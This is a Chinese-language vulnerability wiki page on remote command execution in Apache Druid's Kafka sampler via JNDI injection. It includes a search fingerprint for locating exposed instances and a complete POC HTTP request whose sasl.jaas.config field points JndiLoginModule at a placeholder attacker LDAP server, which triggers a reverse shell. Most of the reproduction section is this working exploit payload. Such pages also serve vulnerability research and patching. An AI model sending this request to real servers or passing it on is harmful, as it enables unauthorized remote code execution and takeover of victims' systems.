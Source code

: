 # Apache Druid sampler kafka 远程命令执行漏洞

## 漏洞描述

Apache Druid 支持从 Kafka 加载数据，恶意的攻击者可通过修改 Kafka 连接配置属性，从而进一步触发 JNDI 注入攻击，最终攻击者可在服务端执行任意恶意代码，获取系统服务权限。

## 漏洞影响

<a-checkbox checked>Apache Druid </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title_string = "Apache Druid"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1682919141181-6c39b2c9-e803-4fa3-af91-4c933f863780.png)

验证POC

```python
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 1392
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close  

{
    "type":"kafka",
    "spec":{
            "type":"kafka",
            "ioConfig":{
                "type":"kafka",
                "consumerProperties":{
                    "bootstrap.servers":"6.6.6.6:9092",
                    "sasl.mechanism":"SCRAM-SHA-256",
                    "security.protocol":"SASL_SSL",
                    "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://xxx.xxx.xxx.xxx:1389/Basic/ReverseShell/xxx.xxx.xxx.xxx/8373\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
                },
                "topic":"any",
                "useEarliestOffset":true,
                "inputFormat":{
                    "type":"regex",
                    "pattern":"([\\s\\S]*)",
                    "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                    "columns":[
                            "raw"
                    ]
                }
            },
            "dataSchema":{
                "dataSource":"sample",
                "timestampSpec":{
                    "column":"!!!_no_such_column_!!!",
                    "missingValue":"1970-01-01T00:00:00Z"
                },
                "dimensionsSpec":{        

                },
                "granularitySpec":{
                    "rollup":false
                }
            },
            "tuningConfig":{
                "type":"kafka"
            }
    },
    "samplerConfig":{
            "numRows":500,
            "timeoutMs":15000
    }
}
```

![img](/assets/PeiQi-Wiki/img/1682919248408-90090556-799e-4a7a-9d54-d6ef94541686.png)